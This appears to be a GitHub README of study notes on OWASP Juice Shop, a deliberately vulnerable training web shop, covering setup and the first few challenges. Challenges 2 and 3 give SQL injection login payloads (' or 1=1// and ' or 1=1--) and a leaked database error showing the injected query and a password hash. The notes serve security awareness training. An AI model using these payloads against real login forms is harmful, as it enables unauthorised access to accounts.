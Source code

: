 # Juice Shop Project
* Top ten security things in OWASP
* Exploited vulnerabilities in developing websites
* How to translate to spring
* Understand OWASP top 10
* Evaluate Juice Shop
* Open Web Appliation Security Project

## Installation
* [Running OWASP Juice Shop](https://bkimminich.gitbooks.io/pwning-owasp-juice-shop/content/part1/running.html)
* Install [Node.js](http://nodejs.org/)

```
git clone https://github.com/bkimminich/juice-shop.git
cd juice-shop
npm install
npm start
```
* The server begins listening on [port 3000](localhost:3000) by default
`' or 1=1//`
## What is being served?
* A virtual market which vends _mostly_ foods; particularly punny ones.
	* _Raspberry Juice made of Raspberry Pi Microcontrollers_
* Much like amazon, ebay, etsy, etc.



## Objective
* Awareness session
* To demonstrate what Average Joe sees from a typical virtual market
* To demonstrate how Hacker Joe can abuse and eventually break



## Why another broken webapp?
* First application written entirely in JS listed in [OWASP VWA Directory](https://www.owasp.org/index.php/OWASP_Vulnerable_Web_Applications_Directory_Project)
* First broken webapp that uses the currently popular architecture of an SPA/RIA frontend with a RESTful backend

## What is OWASP?
* **OWASP**
	* Open
	* Web
	* Application
	* Security
	* Project

## What tools may be helpful?
* ZAP or BURP can be useful, but most automated scanners won't help much


## Challenges
* Challenge 1 - Find Scoreboard
	* Navigate to `localhost:3000` to view the Juice Shop.
	* Open console
	* Open source view via the `CMD+U` shortcut.
	* Open find-in-page via the `CMD+F` shortcut.
	* Search for the string `score-board`
	* Navigate to the respective `anchor` tag's `href` [attribute](http://localhost:3000/#/score-board).

* Challenge 2 - Provoke an error that is not gracefully handled
	* Navigate to Juice Shop
	* Log out
	* Log in using
		* **Email:** `' or 1=1//`
		* **Password:** `_`
	* Upon clicking the `login` button, an error message reveals a respective user and password

```JSON
{"error":{"message":"SQLITE_ERROR: near \"/\": syntax error","stack":"SequelizeDatabaseError: SQLITE_ERROR: near \"/\": syntax error\n at Query.formatError (/Users/leon/dev/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:423:16)\n at afterExecute (/Users/leon/dev/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:119:32)\n at replacement (/Users/leon/dev/juice-shop/node_modules/sqlite3/lib/trace.js:19:31)\n at Statement.errBack (/Users/leon/dev/juice-shop/node_modules/sqlite3/lib/sqlite3.js:16:21)","name":"SequelizeDatabaseError","parent":{"errno":1,"code":"SQLITE_ERROR","sql":"SELECT * FROM Users WHERE email = '' or 1=1//' AND password = 'b14a7b8059d9c055954c92674ce60032'"},"original":{"errno":1,"code":"SQLITE_ERROR","sql":"SELECT * FROM Users WHERE email = '' or 1=1//' AND password = 'b14a7b8059d9c055954c92674ce60032'"},"sql":"SELECT * FROM Users WHERE email = '' or 1=1//' AND password = 'b14a7b8059d9c055954c92674ce60032'"}}
```


* Challenge 3 - Login as in Admin
	* Navigate to Juice Shop
	* Log out
	* Log in using
		* **Email:** `' or 1=1--`
		* **Password:** `_`
	* Upon clicking the `login` button, an error message reveals a respective user and password

* Challenge 4 - Login as 



## Resources
* [Wiki page](https://www.owasp.org/index.php/OWASP_Juice_Shop_Project)
